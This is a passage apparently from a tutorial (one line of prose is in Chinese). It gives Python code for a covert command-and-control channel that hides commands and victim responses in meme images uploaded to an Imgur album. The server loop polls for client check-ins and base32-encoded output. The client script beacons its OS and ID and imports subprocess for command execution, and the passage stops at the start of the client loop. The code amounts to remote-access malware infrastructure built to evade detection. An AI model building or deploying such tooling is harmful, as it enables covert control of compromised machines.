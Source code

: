 ```py

loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
        else:
            print base64.b32decode(client_dict['response'])

        random.choice(client.default_memes()).link
        last_message_datetime = send_command_message(client_dict['uuid'],
        client_dict['os'],
        random.choice(client.default_memes()).link)
```

以下是我们的客户端脚本：

```py
from imgurpython import ImgurClient
import StegoText
import ast, os, time, shlex, subprocess, base64, random, sys

def get_input(string):
    try:
        return raw_input(string)
    except:
        return input(string)

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("<YOUR IMGUR USERNAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice(client.default_memes()). link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']

while True:
```